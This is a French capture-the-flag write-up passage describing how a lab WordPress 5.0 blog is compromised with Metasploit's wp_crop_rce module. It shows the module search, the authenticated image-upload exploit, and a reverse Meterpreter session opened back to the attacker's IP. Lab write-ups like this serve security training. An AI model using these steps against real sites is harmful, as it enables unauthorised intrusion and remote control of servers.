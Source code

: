 ```
```
Je suis donc maintenant authentifié avec un compte utilisateur sur le blog !

# Revshell to the server using metasploit
Maintenant que je suis authetifié sur le blog, je peux tenter quelques exploits. Sur [exploit-db](https://www.exploit-db.com/) je trouve l'exploit **WordPress Crop-image Shell Upload**.

Je lance donc metasploit et recherche les modules dispo pour wordpress 5.0
```
msf6 > search Wordpress 5.0

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   4  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/scanner/http/wp_registrationmagic_sqli
```
Le module **exploit/multi/http/wp_crop_rce** est bien là.
Je le configure puis je le lance :
```
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.11.50.195:4444 
[*] Authenticating with WordPress using kwheel:c*******1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.146.155
[*] Meterpreter session 1 opened (10.11.50.195:4444 -> 10.10.146.155:34500) at 2023-09-21 05:37:45 -0400
[*] Attempting to clean up files...

meterpreter >
```
Cela fonctionne !
